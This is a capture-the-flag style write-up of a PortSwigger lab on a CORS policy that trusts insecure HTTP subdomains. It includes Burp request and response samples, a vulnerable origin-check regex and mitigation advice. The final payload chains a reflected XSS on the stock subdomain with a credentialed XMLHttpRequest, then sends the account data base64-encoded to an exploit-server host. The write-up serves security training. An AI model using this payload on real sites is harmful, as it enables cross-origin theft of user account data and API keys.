




# Lab 03: CORS vulnerability with trusted insecure protocols

> **Topic**: CORS Cross Origin Request Sharing
> **Lab Number**: 03
> **Platform**: PortSwigger Web Security Academy

## Category
CORS — Trusted Insecure Subdomain with Credentials

## Vulnerability Summary
The application's CORS policy is configured to trust subdomains, but it fails to restrict the protocol to HTTPS. Specifically, it trusts requests originating from its subdomains even when they are served over insecure HTTP. If an attacker can find an XSS vulnerability on any of these trusted subdomains (even one served over HTTP), they can use it as a pivot to perform authenticated cross-origin requests to the main application and exfiltrate sensitive data.

## Attack Methodology

### Step 1: Discovery
While analyzing the main application, I identified that the CORS policy allows credentials and reflects subdomains. I also noticed that the application uses subdomains for specific features, such as `stock`.

### Step 2: Verification (CORS)
Using Burp Repeater, I verified that the server trusts the `stock` subdomain over HTTP:

```http
GET /accountDetails HTTP/2
Host: 0a76003c04ba23118161d40b00cb0062.web-security-academy.net
Origin: http://stock.0a76003c04ba23118161d40b00cb0062.web-security-academy.net
...
```

The server responded with:

```http
HTTP/2 200 OK
Access-Control-Allow-Origin: http://stock.0a76003c04ba23118161d40b00cb0062.web-security-academy.net
Access-Control-Allow-Credentials: true
...
```


*Verification that the main application trusts its stock subdomain over HTTP.*

### Step 3: Finding XSS on the Subdomain
I explored the `stock` subdomain and found a reflected XSS vulnerability in the `productId` parameter. Injecting `` confirmed the vulnerability.


*Discovery of a reflected XSS vulnerability on the stock subdomain.*

### Step 4: Exploitation
I crafted a payload that uses the XSS on the `stock` subdomain to execute a script. This script fetches the sensitive `/accountDetails` from the main application and exfiltrates the data to the exploit server.

**Final Payload (delivered via the exploit server):**
```html
<script>
    document.location = "http://stock.0a76003c04ba23118161d40b00cb0062.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = function(){ fetch('https://exploit-0a300067049823908102d3340156009a.exploit-server.net/log?key=' + btoa(this.responseText)); }; req.open('get', 'https://0a76003c04ba23118161d40b00cb0062.web-security-academy.net/accountDetails', true); req.withCredentials = true; req.send(); %3c/script>&storeId=1";
</script>
```

The victim visits the exploit server, which redirects them to the vulnerable subdomain with the XSS payload. The XSS payload then triggers the CORS request to the main site.


*Exploit server logs showing the captured API key for the administrator user.*


*Lab successfully solved.*

## Technical Root Cause
The server-side CORS logic uses a regex or a simple string check that matches any subdomain of the main site but fails to enforce the `https://` protocol.

```python
# Vulnerable — trusts subdomains over any protocol
def check_origin(origin):
    if re.match(r"^http(s)?://.*\.weliketoshop\.net$", origin):
        return True
```

### Why This Works
The browser's Same-Origin Policy (SOP) treats `http://stock.example.com` and `https://example.com` as different origins. However, the application's CORS policy explicitly bridges this gap by trusting the insecure subdomain. An attacker who can compromise the less secure HTTP subdomain via XSS can then bypass the SOP of the more secure HTTPS main site.

## Impact
- **Cross-Protocol Data Theft**: Sensitive data on a secure HTTPS site is exposed to vulnerabilities on insecure HTTP subdomains.
- **Pivot for Account Takeover**: Stolen API keys or session details can be used to fully compromise user accounts.

## Proof of Concept
1. Identify a CORS policy trusting insecure subdomains with credentials.
2. Find an XSS vulnerability on one of those subdomains.
3. Craft a payload that redirects a victim to the XSS-vulnerable subdomain to execute a cross-origin request back to the main site.
4. Capture exfiltrated data on an attacker-controlled log.

## Key Takeaways
1. **Protocol Matters**: Never trust insecure `http://` origins in your CORS policy if your site uses `https://`.
2. **Subdomains are Attack Surfaces**: The security of your main application is only as strong as its weakest subdomain.
3. **Defense in Depth**: Regularly audit all subdomains for vulnerabilities like XSS, as they can be leveraged to attack the main application.

## Mitigation
1. **Restrict to HTTPS**: Only allow trusted origins served over `https://`.
2. **Strict Origin Validation**: Use an exact match allowlist instead of broad regex patterns that include subdomains.
3. **Secure All Subdomains**: Ensure that all subdomains follow the same security standards (e.g., HTTPS, secure headers) as the main application.

## References
- [PortSwigger CORS Lab - Trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-with-cors)
- [Mozilla Web Security - CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)

---

*Lab completed on: 2026-05-16*
*Writeup by vibhxr*
